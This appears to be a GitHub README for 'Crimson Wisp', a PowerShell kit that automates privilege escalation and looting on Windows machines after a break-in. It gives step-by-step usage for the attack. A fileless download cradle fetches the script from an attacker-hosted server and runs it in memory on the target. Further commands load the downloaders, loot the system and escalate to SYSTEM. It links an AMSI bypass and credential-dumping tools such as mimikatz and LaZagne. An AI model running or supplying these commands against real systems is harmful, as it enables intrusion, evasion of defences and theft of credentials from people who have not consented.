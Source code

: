 # Crimson Wisp

> Crimson Wisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="wisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_wisp.git
```
# Usage
## ON THE HOST MACHINE
* GO TO crimson_wisp DIRECTORY AND START THE WEB SERVER
```
cd crimson_wisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE
* LOAD THE SCRIPT TO MEMMORY
```
IEX(new-object system.net.webclient).downloadstring("http://<your_server>/wisp.txt")
```
* SET A SERVER URL FOR THE DOWNLOADERS & LOAD THE SCRIPTS
```
Invoke-Wisp -Url http://<your_server>
. memory_load
```
* PRIVILEGE ESCALATION ENUMERATION
```
escalation
```
* LOOTING THE SYSTEM - USE AS nt `authority/system` ONLY!
```
. looting
```
* LOCAL ADMIN TO SYSTEM
```
. get_system
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/)

# List of utilized tools
> The following tools are used in `Crimson Wisp`. I encourage you to study the links below. They will help you in your work.

* [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [AMSI BYPASS](https://github.com/Karmaz95/evasion/blob/main/isma.txt)
* [HostRecon](https://github.com/dafthack/HostRecon)
* [PrivescCheck](https://github.com/itm4n/PrivescCheck)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)
* [adPEAS](https://github.com/61106960/adPEAS)
* [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* [Invoke-Portscan](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
* [mimikatz](https://github.com/gentilkiwi/mimikatz)
* [psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
* [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)
* [nmap](https://nmap.org/)
* [Rubeus](https://github.com/GhostPack/Rubeus)
* [laZagne](https://github.com/AlessandroZ/LaZagne)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>